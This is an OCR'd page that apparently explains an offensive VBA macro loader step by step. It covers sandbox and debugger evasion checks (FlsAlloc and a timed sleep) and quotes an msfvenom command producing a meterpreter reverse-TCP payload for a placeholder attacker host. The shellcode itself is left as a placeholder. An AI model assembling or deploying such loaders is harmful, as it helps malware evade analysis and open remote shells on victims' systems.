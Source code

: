 Variable Declarations:
  - `allocRes`: Stores the result of the `FlsAlloc` call.
  - `t1`, `t2`: Track the start and end time for the sleep period.
  - `time`: Stores the difference between `t1` and `t2`.
  - `buf`: Array to hold the shellcode.
  - `addr`: Holds the address of the allocated memory.
  - `counter`, `data`, `res`: Loop counters and intermediate variables.

---

```vb
    ' Call FlsAlloc and verify if the result exists
    allocRes = FlsAlloc(0)
    If IsNull(allocRes) Then
        End
    End If
```

Fiber Local Storage (FLS) allocation check:
- **`FlsAlloc`**: Allocates an FLS index.
- **Check**: If `allocRes` is `Null`, the macro ends. This check ensures that FLS allocation was successful.

---

```vb
    ' Sleep for 10 seconds and verify time passed
    t1 = Now()
    Sleep (10000)
    t2 = Now()
    time = DateDiff("s", t1, t2)
    If time < 10 Then
        Exit Sub
    End If
```

Sleep and Time check:
- **Time Tracking**: `t1` and `t2` store the current time before and after the sleep period.
- **`Sleep (10000)`**: Pauses execution for 10 seconds.
- **Time Verification**: Checks if the sleep period was actually 10 seconds or more. If not, the macro exits. This serves as a simple anti-debugging measure to detect if the script was run too quickly (possibly indicating it's being analyzed).

---

```vb
    ' Output Shellcode from the "msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER LPORT=443 -f vbapplication"
    buf = Array(SHELLCODE_GO_HERE)
```

Shellcode Array:
- **Shellcode Placeholder**: The `buf` array is where the actual shellcode bytes will go. This would typically be generated by a tool like `msfvenom` and copied here.

---
